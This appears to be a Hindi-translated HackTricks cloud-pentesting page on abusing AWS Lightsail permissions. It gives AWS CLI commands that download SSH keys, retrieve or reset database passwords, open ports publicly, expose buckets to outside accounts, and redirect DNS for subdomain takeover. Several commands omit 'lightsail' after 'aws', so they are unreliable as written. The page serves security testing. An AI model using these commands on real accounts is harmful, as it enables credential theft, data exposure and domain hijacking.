 # AWS - Lightsail Privesc

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

## Lightsail

Lightsail के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
यह महत्वपूर्ण है कि Lightsail **उपयोगकर्ता के नामांकित IAM भूमिकाओं का उपयोग नहीं करता** है, बल्कि एक AWS प्रबंधित खाते का उपयोग करता है, इसलिए आप इस सेवा का उपयोग privesc के लिए नहीं कर सकते। हालांकि, इस सेवा में **संवेदनशील डेटा** जैसे कोड, API कुंजी और डेटाबेस जानकारी मिल सकती है।
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

इस अनुमति से आप इंस्टेंसेज़ तक पहुंच के लिए SSH कुंजी प्राप्त कर सकते हैं:
```
aws lightsail download-default-key-pair
```
**संभावित प्रभाव:** इंस्टेंस के भीतर संवेदनशील जानकारी खोजें।

### `lightsail:GetInstanceAccessDetails`

यह अनुमति आपको इंस्टेंस तक पहुंच के लिए SSH कुंजी उत्पन्न करने की अनुमति देगी:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:CreateBucketAccessKey`

यह अनुमति आपको बकेट तक पहुंच के लिए एक कुंजी प्राप्त करने की अनुमति देगी:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**संभावित प्रभाव:** बाल्टी में संवेदनशील जानकारी खोजें।

### `lightsail:GetRelationalDatabaseMasterUserPassword`

यह अनुमति आपको डेटाबेस तक पहुंच के लिए प्रमाणपत्र प्राप्त करने की अनुमति देगी:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**संभावित प्रभाव:** डेटाबेस में संवेदनशील जानकारी खोजें।

### `lightsail:UpdateRelationalDatabase`

यह अनुमति आपको डेटाबेस तक पहुंच के लिए पासवर्ड बदलने की अनुमति देगी:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

यदि डेटाबेस सार्वजनिक नहीं है, तो आप इस अनुमतियों के साथ इसे सार्वजनिक भी बना सकते हैं

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**संभावित प्रभाव:** डेटाबेस में संवेदनशील जानकारी खोजें।

### `lightsail:OpenInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है।
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट तक पहुंच।

### `lightsail:PutInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है। ध्यान दें कि यह कॉल उस पोर्ट को बंद कर देगी जिसे इसमें निर्दिष्ट नहीं किया गया है।
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट तक पहुंच।

### `lightsail:SetResourceAccessForBucket`

यह अनुमति बिना किसी अतिरिक्त प्रमाणीकरण के एक बकेट को एक इंस्टेंस को पहुंच देने की अनुमति देती है।

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**संभावित प्रभाव:** संभावित नए उपयोगकर्ता को संवेदनशील जानकारी वाले बकेट्स तक पहुंच।

### `lightsail:UpdateBucket`

इस अनुमति के साथ एक हमलावर्ती अपने AWS खाते को बकेट्स पर पढ़ने की पहुंच दे सकता है या बकेट्स को सभी के लिए सार्वजनिक बना सकता है:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**संभावित प्रभाव:** संभावित नई पहुंच गोपनीय जानकारी वाले बकेट्स में।

### `lightsail:UpdateContainerService`

इस अनुमति के साथ एक हमलावर निर्माण सेवा से निजी ECRs के लिए पहुंच प्रदान कर सकता है।
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**पोटेंशियल प्रभाव:** निजी ECR से संवेदनशील जानकारी प्राप्त करें

### `lightsail:CreateDomainEntry`

इस अनुमति के साथ एक हमलावर एक सबडोमेन बना सकता है और इसे अपने आईपी पते पर पॉइंट कर सकता है (सबडोमेन टेकओवर), या एसपीएफ रिकॉर्ड बना सकता है जो उसे डोमेन से ईमेल स्पूफ़ करने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने आईपी पते पर सेट कर सकता है।
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**पोटेंशियल प्रभाव:** डोमेन का अधिकार लेना

### `lightsail:UpdateDomainEntry`

इस अनुमति के साथ एक हमलावर एक सबडोमेन बना सकता है और इसे अपने आईपी पते पर पॉइंट कर सकता है (सबडोमेन ले लो), या एसपीएफ रिकॉर्ड बना सकता है जो उसे डोमेन से ईमेल स्पूफ़ करने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने आईपी पते पर सेट कर सकता है।
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**पोटेंशियल प्रभाव:** एक डोमेन का ताज़ा करना

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को पीडीएफ़ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
